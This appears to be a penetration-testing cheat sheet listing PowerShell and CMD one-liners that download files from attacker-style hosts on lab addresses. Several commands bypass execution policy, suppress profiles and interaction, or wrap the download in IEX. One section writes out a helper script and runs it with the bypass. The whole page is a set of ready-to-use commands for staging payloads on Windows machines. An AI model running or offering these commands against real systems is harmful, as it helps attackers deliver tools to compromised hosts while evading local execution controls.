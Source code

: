 USING POWERSHELL - 
------------------------------------------------------------------------------------------------------------------


#### 

**Web Content Download**
	
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Web Content Download**
	
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
	
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"
   
**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile

**Powershell Wget**
	
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
	
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"

**Powershell Direct URI**
	
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Using file**
	
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------

#### 


USING CMD - 
------------------------------------------------------------------------------------------------------------------


#### 
**Web Content Download**
	
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://192.168.1.143/1.txt','c:\temp\1.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://192.168.1.143/1.txt' -Destination 'C:\temp\1.txt'"

**Web Content Download**
	
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://192.168.1.143:80/1.txt','c:\temp\1.txt')"

**Web Content Download**
	
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://192.168.1.143/1.txt','C:\temp\1.txt')"


